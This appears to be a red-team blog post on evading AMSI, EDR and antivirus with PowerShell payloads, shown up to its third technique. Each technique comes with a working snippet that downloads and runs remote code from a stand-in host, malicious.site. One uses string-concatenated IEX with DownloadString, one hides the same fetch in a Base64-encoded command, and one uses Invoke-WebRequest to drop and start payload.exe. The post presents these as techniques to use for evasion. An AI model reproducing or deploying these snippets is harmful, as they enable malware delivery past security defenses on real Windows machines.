 
---
layout: post
title:  "PowerShell Payload Evasion: Techniques, Examples, and Future Trends"
date:   2025-02-18 19:51:02 +0700 
categories: [redteam]
---

## **1. PowerShell Payload Evasion Techniques for Red Teams**

```markdown
# PowerShell Payload Evasion Techniques for Red Teams

PowerShell is a versatile tool for executing payloads on Windows systems. However, modern defenses like AMSI, EDR, and antivirus solutions can detect and block malicious scripts. This guide covers advanced evasion techniques to bypass these defenses.

---

## **Key Evasion Techniques**

### 1. **Obfuscation**
Obfuscation makes scripts harder to detect by signature-based tools. Use string manipulation and encoding to disguise your payload.

#### Example: String Concatenation
```powershell
$cmd = "I" + "EX"
Invoke-Expression $cmd "(New-Object Net.WebClient).DownloadString('http://malicious.site/payload.ps1')"
```

### 2. **Encoding**
Encoding hides the payload from static analysis. Base64 is a common choice.

#### Example: Base64 Encoding
```powershell
$encodedCommand = "SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AbQBhAGwAaQBjAGkAbwB1AHMALgBzAGkAdABlAC8AcABhAHkAbABvAGEAZAAuAHAAcwAxACcAKQA="
$decodedCommand = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encodedCommand))
Invoke-Expression $decodedCommand
```

### 3. **Living Off the Land (LotL)**
Leverage legitimate PowerShell features to blend in with normal activity.

#### Example: Using `Invoke-WebRequest`
```powershell
Invoke-WebRequest -Uri "http://malicious.site/payload.exe" -OutFile "$env:TEMP\payload.exe"
Start-Process "$env:TEMP\payload.exe"
```

---